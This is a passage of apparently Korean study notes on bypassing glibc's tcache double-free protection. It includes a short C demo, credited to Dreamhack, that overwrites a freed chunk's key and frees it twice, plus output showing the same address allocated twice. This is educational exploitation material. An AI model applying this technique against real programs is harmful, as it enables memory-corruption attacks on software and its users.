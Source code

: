 <br>

```if (__glibc_unlikely (e->key == tcache))```만 우회하면 DFB를 할 수 있다고 한다.

즉, 해제된 청크의 key값을 1비트만이라도 바꿀 수 있으면, 이 보호 기법을 우회할 수 있다고 한다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Bypass
<hr style="border-top: 1px solid;"><br>

DFB 보호기법을 우회하는 방법으로, tcache duplication이 있다고 한다.

코드는 드림핵에서 가져왔다.

<br>

```c
// Name: tcache_dup.c
// Compile: gcc -o tcache_dup tcache_dup.c
#include <stdio.h>
#include <stdlib.h>
int main() {
  void *chunk = malloc(0x20);
  
  printf("Chunk to be double-freed: %p\n", chunk);
  free(chunk);
  
  *(char *)(chunk + 8) = 0xff;  // manipulate chunk->key
  free(chunk);                  // free chunk in twice
  
  printf("First allocation: %p\n", malloc(0x20));
  printf("Second allocation: %p\n", malloc(0x20));
  
  return 0;
}
```

<br>

```shell
$ ./tcache_dup
Chunk to be double-freed: 0x55d4db927260
First allocation: 0x55d4db927260
Second allocation: 0x55d4db927260
```

<br>

chunk가 tcache에 중복 연결되어 연속으로 재할당되는 것을 확인할 수 있다.

<br><br>
<hr style="border: 2px solid;">
<br><br>
